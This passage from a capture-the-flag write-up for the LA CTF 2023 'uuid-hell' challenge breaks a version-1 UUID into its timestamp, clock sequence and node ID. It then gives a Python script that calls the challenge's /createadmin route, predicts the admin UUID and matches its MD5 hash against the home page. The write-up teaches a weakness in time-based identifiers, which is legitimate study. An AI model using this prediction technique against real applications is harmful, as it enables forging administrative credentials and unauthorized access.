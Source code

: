 ![](https://github.com/siunam321/CTF-Writeups/blob/main/LA-CTF-2023/images/Pasted%20image%2020230211173401.png)

**Hence, our current UUID:**

- Timestamp: 1eda9e3ab25e090 (`ab25e090`-`a9e3`-1`1ed`-aa64-67696e6b6f69)
    - Hex to decimal: 138953958812410000
    - Subtracted: 1676103081241 ( ${138953958812410000} - {122192928000000000} / 10000$ )
    - Converted: Sat Feb 11 2023 16:11:21 GMT+0800 (From [Dan's Tool](https://www.unixtimestamp.com/))
- Version: 1 (ab25e090-a9e3-`1`1ed-aa64-67696e6b6f69)
- Clock Sequence / Clock ID: aa64 (ab25e090-a9e3-11ed-`aa64`-67696e6b6f69) (`0b10101001100100`)
- Node ID: 67696e6b6f69 (ab25e090-a9e3-11ed-aa64-`67696e6b6f69`) (`[0x67, 0x69, 0x6E, 0x6B, 0x6F, 0x69]`)

Hmm... How can we abuse the `/createadmin` route...

***Ah! Since we now know the format of UUIDv1, the value of node, and clock sequence, we can theoretically predict the admin UUID!***

**To so do, I'll write a Python script:**
```py
#!/usr/bin/env python3

import requests
from hashlib import md5
from uuid import uuid1

def main():
    session = requests.session()

    # Create new admin
    URL = 'https://uuid-hell.lac.tf'
    createAdminRequestResult = session.post(URL + '/createadmin')
    print(f'[+] Request result text: {createAdminRequestResult.text}')

    UUIDv1 = str(uuid1(node=0x67696E6B6F69, clock_seq=0b10101001100100))
    print(f'[+] UUIDv1: {UUIDv1}')
    
    hashedUUIDv1 = md5(b'admin' + UUIDv1.encode('utf-8')).hexdigest()
    print(f'[+] Hashed: {hashedUUIDv1}')
   
    homePageRequestResult = session.get(URL)
    print(homePageRequestResult.text.split('<br><br><strong>')[0])
    if hashedUUIDv1 in homePageRequestResult.text:
        print('[+] Found the same hash in the home page!')
```